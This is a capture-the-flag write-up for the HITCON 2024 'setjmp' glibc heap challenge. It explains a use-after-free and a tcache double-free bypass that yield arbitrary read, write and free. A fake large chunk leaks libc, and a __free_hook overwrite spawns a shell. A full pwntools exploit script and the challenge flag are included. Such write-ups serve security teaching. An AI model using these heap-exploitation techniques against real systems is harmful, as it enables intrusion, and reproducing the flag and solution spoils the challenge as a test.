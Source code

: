 # HITCON 2024 - setjmp

**Summary**: Use a UAF and double free in the tcache bin to get arbitrary read/write. Then, free a fake large chunk on the heap and send it into the unsortedbin to get libc leaks. Overwrite the `__free_hook` to get RCE.

## Reversing

The program lets us allocate, free, edit (we can only edit the password, which is the 2nd qword in the chunk), and view `User` structs, and then it also has `setjmp`/`longjmp` calls in order to restart the state. The struct used to represent a user is:

```C
struct User {
	char username[8];
	char password[8];
	struct User *prev;
	struct User *next;
};
```

So as it can be seen, all users are kept in a double-linked list (which is also circular, as it appears from other functions operating on this list). When the program starts, it allocates a single user on the heap with username and password "root" and then goes into the menu loop.

## Exploitation

First, by having a user with an 8-character password, we can get a heap leak.
Also, if we free the user at the head of the linked list (a pointer to which is kept in the menu loop in `main()`), the pointer to it in `main()` won't be invalidated. So, we can have UAF. We can edit it, and also free it again if we want. By writing a junk value into the `password` field (which is the `key` field of the freed tcache chunk), we can bypass tcache double-free protection. Then, we can free this chunk again and perform tcache-dup to get an arbitrary value into tcache head and allocate it. So, we can have arbitrary read/write. Also, we can free the returned chunk (that is allocated at an arbitrary address) to get an arbitrary free primitive. Additionally, we can choose the `restart` option in the menu after these every time to reset the linked list state and be able to reuse our primitivies. From here, we just need to write fake metadata for a large chunk on the heap (using our arbitrary write) and use arbitrary free to free that chunk. This will get two libc pointers on the heap, and we can use the arbitrary read to read them. Then, we can write the address of `system` into `__free_hook` and free a user with username `"/bin/sh"` to get RCE.

Full exploit:

```python
from pwn import *

context.update(os="linux", arch="amd64")
elf = context.binary = ELF("run")
libc = ELF("libc.so.6")

if args.REMOTE:
	p = remote("setjmp.chal.hitconctf.com", 1337)
else:
	p = elf.process()
	if args.GDB:
		gdb.attach(p)
		pause()

def restart():
	p.sendlineafter(b"> ", b"1")

def new_user(username, password):
	p.sendlineafter(b"> ", b"2")
	p.sendafter(b"> ", username)
	p.sendafter(b"> ", password)

def del_user(username):
	p.sendlineafter(b"> ", b"3")
	p.sendafter(b"> ", username)

def change_pass(username, password):
	p.sendlineafter(b"> ", b"4")
	p.sendafter(b"> ", username)
	p.sendafter(b"> ", password)

def view_users():
	p.sendlineafter(b"> ", b"5")

new_user(b"A\n", b"a" * 8)
view_users()
p.recvuntil(b"A: aaaaaaaa")
heap_leak = u64(p.recvuntil(b"root", drop=True)[:-1].ljust(8, b"\0"))
heap_base = heap_leak - 0x370
log.success("heap base = " + hex(heap_base))

def arb_write(where, what1, what2):
	restart()
	new_user(b"A\n", b"a" * 8)
	view_users()
	p.recvuntil(b"A: aaaaaaaa")
	heap_leak = u64(p.recvuntil(b"root", drop=True)[:-1].ljust(8, b"\0"))
	del_user(b"root\n")
	del_user(b"A\n")
	uaf_user = p64(heap_leak).rstrip(b"\0") + b"\n"
	change_pass(uaf_user, b"junk")
	del_user(uaf_user)
	new_user(p64(where), b"CCCC\n")
	new_user(b"DDDD\n", b"EEEE\n")
	new_user(p64(what1), p64(what2))

def arb_read(where, lsb):
	restart()
	new_user(b"A\n", b"a" * 8)
	view_users()
	p.recvuntil(b"A: aaaaaaaa")
	heap_leak = u64(p.recvuntil(b"root", drop=True)[:-1].ljust(8, b"\0"))
	del_user(b"root\n")
	del_user(b"A\n")
	uaf_user = p64(heap_leak).rstrip(b"\0") + b"\n"
	change_pass(uaf_user, b"junk")
	del_user(uaf_user)
	new_user(p64(where), b"CCCC\n")
	new_user(b"DDDD\n", b"EEEE\n")
	new_user(lsb, lsb)
	view_users()
	p.recvuntil(lsb)
	leak = p.recvuntil(b": ", drop=True).ljust(7, b"\0")
	leak = b"\0" + leak
	return u64(leak)

def arb_free(where):
	restart()
	new_user(b"A\n", b"a" * 8)
	view_users()
	p.recvuntil(b"A: aaaaaaaa")
	heap_leak = u64(p.recvuntil(b"root", drop=True)[:-1].ljust(8, b"\0"))
	del_user(b"root\n")
	del_user(b"A\n")
	uaf_user = p64(heap_leak).rstrip(b"\0") + b"\n"
	change_pass(uaf_user, b"junk")
	del_user(uaf_user)
	new_user(p64(where), b"CCCC\n")
	new_user(b"DDDD\n", b"EEEE\n")
	new_user(b"SSSS\n", b"SSSS\n")
	del_user(b"SSSS\n")

fake_chunk = heap_base + 0x5008
arb_write(fake_chunk, 0x501, 0)
arb_write(fake_chunk + 0x500, 0x21, 0)
arb_write(fake_chunk + 0x500 + 0x20, 0x21, 0)
arb_free(fake_chunk + 8)

libc_leak = arb_read(heap_base + 0x5218, b"\xe0")
libc.address = libc_leak - 0x1ecb00
log.success("libc base = " + hex(libc.address))

arb_write(libc.sym["__free_hook"], libc.sym["system"], 0)
restart()
new_user(b"/bin/sh\0", b"a\n")
del_user(b"/bin/sh\0")

p.interactive()
```

And the flag: `hitcon{fr0m-H3ap-jum9-2-system}`
